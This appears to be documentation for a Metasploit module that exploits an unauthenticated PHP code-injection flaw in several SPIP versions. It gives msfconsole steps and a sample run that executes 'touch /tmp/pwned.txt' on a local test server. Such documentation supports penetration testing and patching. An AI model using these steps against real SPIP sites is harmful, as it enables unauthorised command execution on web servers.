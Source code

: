 ## Vulnerable Application

This module exploits a PHP code injection in SPIP. The vulnerability exists in
the `oubli` parameter and allows an unauthenticated user to execute arbitrary
commands with web user privileges. Branches 3.2, 4.0, 4.1 and 4.2 are
concerned. Vulnerable versions are <3.2.18, <4.0.10, <4.1.18 and <4.2.1.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP GET request to `/spip.php`
page and fingerprints it either via the `generator` meta tag, or by the
`Composed-By` header.

This module has been successfully tested against SPIP version 4.0.0.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/spip_rce_form`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to PIP. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### SPIP 4.0.0 - Linux target
```

Module options (exploit/unix/webapp/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to SPIP application
   VHOST                       no        HTTP server virtual host


Payload options (php/exec):

   Name  Current Setting       Required  Description
   ----  ---------------       --------  -----------
   CMD   touch /tmp/pwned.txt  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/spip_rce_form) > run

[*] Got anti-csrf token: fDBVRjMENBhztAcYFvRr+49sl+fSbkKWDtcOmHtIo0Ta5iJ1MNTCax9uYvLZYlhtD77tZ0TcgnhyRwE=
[*] 127.0.0.1:8080 - Attempting to exploit...
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/spip_rce_form) > ls -l /tmp/pwned.txt
[*] exec: ls -l /tmp/pwned.txt

-rw-rw-rw- 1 jvoisin jvoisin 0 Feb 28 20:45 /tmp/pwned.txt
msf6 exploit(unix/webapp/spip_rce_form) > 
```
